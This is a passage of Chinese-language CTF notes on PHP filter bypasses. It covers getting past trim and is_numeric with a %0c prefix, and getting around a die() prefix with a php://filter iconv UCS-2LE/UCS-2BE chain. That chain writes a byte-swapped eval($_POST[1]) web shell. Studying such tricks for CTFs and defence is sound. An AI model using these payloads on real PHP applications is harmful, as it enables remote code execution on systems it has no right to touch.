 ### 19、trim 函数的绕过 + is_numeric 绕过

这两个函数一起检测时，`is_numeric`认为内容里有 %09 %0a %0b %0c %0d %20 也算数字，跟 trim 一起测试一下

```php
for ($i = 0; $i <= 128; $i++) {
    $x = chr($i) . '1';
    if (trim($x) !== '1' &&  is_numeric($x)) {
        echo urlencode(chr($i)) . "\n";
    }
}
```

除了 +-. 号以外还有只剩下 %0c 也就是换页符了，trim 默认时没有剔除 %0c。形如以下代码可以绕过

```php
if (is_numeric($num) and $num !== '36' and trim($num) !== '36') {
    if ($num == '36') {
        echo $flag;
    } else {
        echo "hacker!!";
    }
}
```

payload:`num=%0c36`





### 20、绕过死亡 die

```php
<?php
function filter($x)
{
    if (preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i', $x)) {
        die('too young too simple sometimes naive!');
    }
}
$file = $_GET['file'];
$contents = $_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>" . $contents);
?>
```

这道看了羽师傅 wp，过滤了许多协议，这是取一个 UCS-2LE UCS-2BE

```php
payload:
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
post:contents=?<hp pvela$(P_SO[T]1;)>?
```

这会将字符两位两位交换，file_put_contents 在写入的时候会破坏那句 die，但 contents 那句恢复原貌，可以执行

